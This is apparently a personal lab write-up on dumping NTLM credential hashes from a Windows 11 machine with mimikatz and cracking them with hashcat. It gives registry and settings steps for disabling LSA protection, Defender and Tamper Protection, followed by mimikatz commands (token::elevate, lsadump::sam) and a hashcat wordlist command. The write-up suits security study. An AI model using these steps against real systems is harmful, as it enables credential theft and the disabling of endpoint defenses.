 # Introduction

Credential dumping is a popular method attackers use to steal passwords from memory or files. In this lab environment, I will try the different ways of using mimikatz into dumping ntlm hashes in Windows 11 and cracking it using hashcat

## What are these tools?
* **Mimikatz**: A powerful tool that can extract plain-text passwords, hashes, PINs, and Kerberos tickets from memory.

* **Hashcat**: An advanced password recovery tool that uses GPU acceleration to crack password hashes using dictionary, brute-force, rule-based, and hybrid attacks. It's widely used for cracking NTLM, bcrypt, SHA-family, and other common hash formats.
## How can we make mimikatz work?

Given that windows 11 has already implemented a lot of good security posture we need to make our machine less secure to make mimikatz work

* Disabling secure boot
![](../z.attachments/Pasted%20image%2020250727135215.png)

* Disabling Tamper Protection
![](../z.attachments/Pasted%20image%2020250727140325.png)

* Disabling LSA-Protection - **Set - RunAsPPL = 0**
```
Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa
```
![](../z.attachments/Pasted%20image%2020250727135742.png)

* Disabling WinDefender using regedit
![](../z.attachments/Pasted%20image%2020250727140503.png)

![](../z.attachments/Pasted%20image%2020250727140519.png)

![](../z.attachments/Pasted%20image%2020250727140531.png)

![](../z.attachments/Pasted%20image%2020250727140543.png)

* Verification
![](../z.attachments/Pasted%20image%2020250727140609.png)

* Disable core isolation
 ![](../z.attachments/Pasted%20image%2020250727141958.png)
# Mimikatz usage

* Clone mimikatz
https://github.com/ParrotSec/mimikatz

```
Get-ChildItem | where Name -like "mimi*"
```
![](../z.attachments/Pasted%20image%2020250727141634.png)

* Run an elevated command for mimikatz

```
Start-Process -FilePath '.\mimikatz - Shortcut.link' -Verb RunAs
```
![](../z.attachments/Pasted%20image%2020250727143206.png)
![](../z.attachments/Pasted%20image%2020250727143319.png)

* Check the available commands
```
help
```
![](../z.attachments/Pasted%20image%2020250727142206.png)

* Check the privilege 
```
priviledge::debug
```
![](../z.attachments/Pasted%20image%2020250727143421.png)

* Check the for token privilege
![](../z.attachments/Pasted%20image%2020250727143843.png)

* We need to impersonate a token that has access to kernel mode which is mostly NT Authority

```
token::list /admin
```
![](../z.attachments/Pasted%20image%2020250727144031.png)

* I decided to impersonate this token SID
![](../z.attachments/Pasted%20image%2020250727144200.png)

```
token::elevate /sid:2444 
```
![](../z.attachments/Pasted%20image%2020250727144257.png)

* Check for token privilege
```
token::whoami
```
![](../z.attachments/Pasted%20image%2020250727144443.png)
``
* Try dumping logonpasswords

```
sekurlsa::logonPasswords
```
![](../z.attachments/Pasted%20image%2020250727144644.png)
This method don't work because Win 11 blocked specific driver for mmdrv
![](../z.attachments/Pasted%20image%2020250727144744.png)


* Lets try dumping the hashes

```
lsadump::sam
```
![](../z.attachments/Pasted%20image%2020250727145143.png)
Bingo! got the hashes
# Hashcat usage

* We will try to run this one on hashcat but first lets try some hashcat commands

```
hashcat --help |grep -i ntlm
```
![](../z.attachments/Pasted%20image%2020250727150348.png)
We can see that hashcat has set 1000 for ntlm cracking

```
hashcat -m 1000 hash.txt /usr/shar/wordlists/rockyou.txt
```

![](../z.attachments/Pasted%20image%2020250727150617.png)

Machine has been pwned

![](../z.attachments/Pasted%20image%2020250727150719.png)
